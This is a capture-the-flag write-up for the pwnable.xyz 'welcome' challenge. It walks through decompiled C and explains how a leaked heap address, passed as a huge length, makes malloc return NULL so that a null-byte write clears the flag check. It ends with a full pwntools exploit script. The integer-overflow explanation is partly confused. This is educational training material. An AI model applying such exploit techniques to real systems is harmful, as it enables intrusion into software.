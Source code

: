 ```yaml
---
title: pwnable.xyz - welcome
date: '2025-05-22'
tags: ['pwn', 'malloc', 'pwnablexyz']
draft: false
summary: malloc failing by integer overflow causing NULL
---
```


## Overview

malloc failing by integer overflow causing NULL which satisfies a
condition in getting the flag

![Description](/static/images/pwnablexyz/4.png)

<TOCInline toc={props.toc} exclude="Overview" />

---

## Analysis

We are given a binary with the following protections

```
❯ checksec challenge

[*] '/home/mfkrypt/pwn-learning-notes/pwnablexyz/welcome/challenge'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    FORTIFY:    Enabled
```

We can observe all protections are enabled. Running the binary itself reveals a leak

![Description](/static/images/pwnablexyz/1.png)

Let us now check the decompiled source

```c
undefined8 main(void)

{
  long *malloc_ret;
  void *buffer;
  long in_FS_OFFSET;
  size_t length;
  long canary;

  canary = *(long *)(in_FS_OFFSET + 0x28);
  setup();

  puts("Welcome.");
  malloc_ret = (long *)malloc(262144);
  *malloc_ret = 1;  // Stores the integer 1 at the beginning of that allocated memory

  __printf_chk(1,"Leak: %p\n",malloc_ret);
  __printf_chk(1,"Length of your message: ");

  length = 0;
  __isoc99_scanf(&DAT_00100c50,&length);
  buffer = malloc(length);
  __printf_chk(1,"Enter your message: ");

  read(0,buffer,length);
  *(undefined *)((long)buffer + (length - 1)) = 0;

  write(1,buffer,length);
  if (*malloc_ret == 0) {
    system("cat /flag");
  }

  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }

  return 0;
}
```

We can see over here:

```c
malloc_ret = (long *)malloc(262144);
*malloc_ret = 1;
```

`malloc` returns a pointer, `malloc_ret` and assigned an integer value of `1` . It will probably look like this in memory:

```
0x7fad99950010:  0x0000000000000001
```

In this line:

```c
 __printf_chk(1,"Leak: %p\n",malloc_ret);
```

It leaks the heap address of the returned `malloc` pointer. Other than that,&#x20;

```c
__isoc99_scanf(&DAT_00100c50,&length);
buffer = malloc(length);

read(0,buffer,length);
```

Allocates the `length` we input which is a `long integer` type to allocate memory to a buffer and then reads up the buffer up to the `length` .

And the part below writes a null byte at the last byte of the input buffer

```c
*(undefined *)((long)buffer + (length - 1)) = 0;
write(1,buffer,length);
```

if the returned `malloc` integer value is `0` , we get the flag

```c
if (*malloc_ret == 0) {
    system("cat /flag");
  }
```

---

## Plan

Looking at the man page of `malloc`

![Description](/static/images/pwnablexyz/2.png)

On error, `malloc` returns NULL . Okay, soooo how does this affect what we are going to do? Well, since the program leaks an address, we can take advantage of that address and use it as a size to fail `malloc` when it allocates memory.

The leaked heap pointer isn’t used as a pointer in the logic — it’s used as a large number to trigger `malloc` failure.

Why does it error or fail? For example, the leaked pointer address is `0x7fb304b31010` the equivalent in decimal is `140406854717456` . That is 14TB of memory which is way too huge since the max value for `unsigned int` is `4,294,967,295` .

![Description](/static/images/pwnablexyz/3.png)

On a 32-bit `unsigned int`, very large values like the leaked address, `0x7fb304b31010` will overflow and may result in a small or even negative signed `int` when passed to `malloc`, which causes it to fail and return `NULL`

After overflowing the pointer of `malloc` In this line:

```c
*(undefined *)((long)buffer + (length - 1)) = 0;
```

the `buffer` turns to `NULL` after the error:

```c
NULL + length - 1 = length - 1
```

That `length - 1` ends up being **exactly** the leaked address `malloc_ret` . So to make up for this we need to input the `leak_address + 1` to cancel the `length - 1` . But we need to convert them into a `str` type because `scanf` here expects a string input of the `unsigned long int` .

---

## Exploit

We can manipulate `length` such that `malloc(length)` returns `NULL`, and therefore `buffer = NULL`. Then:

```c
*(buffer + length - 1) = 0;
// becomes:

*(NULL + leaked_address) = 0;
// which writes a zero byte to *malloc_ret
```

Here is the script:

```python
from pwn import *

elf = context.binary = ELF('./challenge', checksec=False)
libc = elf.libc

gs = '''
c
'''

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)


def exploit():
    io = start()

    io.recvuntil(b'Leak: ')
    leak = int(io.recvline(), 16)

    log.success(f"Leaked malloc address: {hex(leak)}")

    io.sendlineafter(b'Length of your message: ', str(leak + 1))
    io.sendlineafter(b'Enter your message: ', "cool")

    io.interactive()


if __name__ == "__main__":
    exploit()
```
